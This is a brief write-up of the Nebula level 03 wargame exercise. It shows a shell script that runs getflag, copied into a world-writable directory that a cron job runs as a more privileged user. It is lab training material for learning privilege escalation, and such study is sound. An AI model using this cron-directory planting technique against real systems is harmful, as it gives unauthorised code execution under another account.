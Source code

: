 .. _nebula03:

.. role(code)
   :language: bash

Nebula 3
========

Basic Information
-----------------

**Home Page** https://exploit-exercises.com/nebula/level03/

Solution
--------

Create an script with this:
.. code-block:: bash

   #!/bin/sh

   /bin/getflag >> /tmp/flag03.out
   $ cp getflag.sh /home/flag03/writable.d/

.. note::

   You have to wait until cron gets executed or execute the program given
